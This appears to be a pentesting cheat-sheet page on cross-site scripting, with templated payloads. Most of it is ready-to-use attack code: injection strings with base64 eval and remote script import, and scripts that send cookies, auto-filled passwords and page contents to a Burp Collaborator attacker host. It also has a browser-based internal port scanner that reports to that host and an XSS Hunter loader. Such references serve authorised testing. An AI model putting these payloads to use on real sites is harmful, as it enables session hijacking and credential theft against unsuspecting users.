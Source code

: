 ```yaml
---
title: XSS
description: Cross-site scripting (XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application.
badge: Web
---
```



## Examples

### Injections

```html
"><input onfocus=eval(atob(this.id)) id={{ xss-payload alert(1) } b64 } autofocus>
```

Load remote Javascript, using regex inside import (Slashes must be scaped).

```html
"><input onfocus=import(/\/\/{{ js-payload-url example.com\/a.js }}/) autofocus>
```

### Exploitation

#### Execute once only

Useful when the payload is reflected on multiple fields. Mainly to avoid popping 3000 alerts when testing.

```js
if (window.{{ js-exec-flag _trickz }} === undefined){{{ js-exec-once alert(1) }};window.{{ js-exec-flag _trickz }} = 1}
```

Same trick but also trying to indicate where the payload came from.

```js
if (window['_{{ input-ref username }}'] === undefined){alert('{{ input-ref username }}');window['_{{ input-ref username }}'] = 1}
```

#### Load Script file

```js
var a=document.createElement("script");a.src="{{ js-payload-url http://localhost:8000/xss.js }}";document.body.appendChild(a);
```

#### Steal cookies

```js
fetch('https://{{ collaborator your.burpcollaborator.net }}', {method: 'POST', mode: 'no-cors', body:document.cookie})
```

```js
var xhttp = new XMLHttpRequest(); xhttp.open("GET", "https://{{ collaborator your.burpcollaborator.net }}/?c=" + document.cookie, true);xhttp.send();
```

```js
navigator.sendBeacon('https://{{ collaborator your.burpcollaborator.net }}/',document.cookie)
```

Very simple, yet effective:
```html
<img src=x onerror="this.src='https://{{ collaborator your.burpcollaborator.net }}/?c='+document.cookie">
```

#### Capture password auto-fill

```html
<b>Username:</b><br>
<input name=username id=username>
<b>Password:</b><br>
<input type=password name=password onchange="if(this.value.length)fetch'https://{{ collaborator your.burpcollaborator.net }}',{method:'POST', mode: 'no-cors', body:username.value+':'+this.value});">
```

#### Steal Page Content

```js
var url = "{{ target-url http://localhost:8000/info/me }}";
var attacker = "https://{{ collaborator your.burpcollaborator.net }}";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
```

#### Port Scanning

```js
const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = https://{{ collaborator your.burpcollaborator.net }}/ping?port=${port}; }); } for(let i=0; i<1000; i++) { checkPort(i); }
```

## Blind XSS

### XSS Hunter

#### Custom XSS Hunter payloads

```js
var a=document.createElement("script");a.src="https://{{ xss-hunter-username your-username }}.xss.ht";document.body.appendChild(a);
```

## Bypass WAF

![Mutation points in a tag for WAF bypass](web_client_xss_a_mutation_points.jpg)

## Angular.js
